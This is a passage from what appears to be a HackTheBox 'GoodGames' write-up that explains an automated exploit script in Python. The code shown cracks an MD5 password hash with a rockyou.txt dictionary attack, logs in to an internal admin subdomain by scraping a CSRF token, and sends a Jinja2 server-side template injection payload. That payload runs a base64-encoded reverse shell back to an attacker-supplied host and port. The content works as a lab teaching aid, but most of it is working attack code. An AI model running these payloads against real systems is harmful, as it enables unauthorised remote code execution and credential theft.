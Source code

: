 We know that the hash is MD5, so we can use `hashlib` and `rockyou.txt` as a wordlist to perform a dictionary attack until we find a password whose MD5 hash matches with the one coming from the database:

```python
def dictionary_attack(hashed_password: str, wordlist: str) -> str:
    crack_progress = log.progress('Cracking hash')

    with open(wordlist, 'rb') as f:
        for password in f.read().splitlines():
            try:
                crack_progress.status(password.decode())
                if hashlib.md5(password).hexdigest() == hashed_password:
                    crack_progress.success(password.decode())
                    return password.decode()
            except UnicodeDecodeError:
                pass
```

It takes some times. It would have been better to use rainbow tables (as shown in the [write-up](https://7rocky.github.io/en/htb/goodgames)).

- Server-Side Template Injection (SSTI):

Now we can enter another subdomain (`http://internal-administration.goodgames.htb`) and login as `admin`. For that, we need to take a CSRF token in order to log in successfully:

```python
def do_login(s: requests.Session, username: str, password: str):
    r = s.get(f'{URL}/login', headers={'Host': VHOST})
    csrf_token = re.findall(
        r'<input id="csrf_token" name="csrf_token" type="hidden" value="(.*?)">', r.text)[0]
    log.info(f'Got CSRF token: {csrf_token}')

    s.post(f'{URL}/login',
           headers={'Host': VHOST},
           data={
               'csrf_token': csrf_token,
               'username': username,
               'password': password,
               'login': ''
           })
```

As we are using `request.Session`, the cookie received in the response will be saved for future requests.

Now we have a SSTI vulnerability at the user's profile (here we don't need the CSRF token):

```python
def exploit_ssti(s: requests.Session, lhost: str, lport: int):
    cmd = f'echo {b64e(rev_shell(lhost, lport))} | base64 -d | bash'
    ssti_payload = '{{cycler.__init__.__globals__.os.popen("%s").read()}}' % cmd
    log.info(f'Using SSTI payload: {ssti_payload}')

    s.post(f'{URL}/settings',
           headers={'Host': VHOST},
           data={'name': ssti_payload})
```
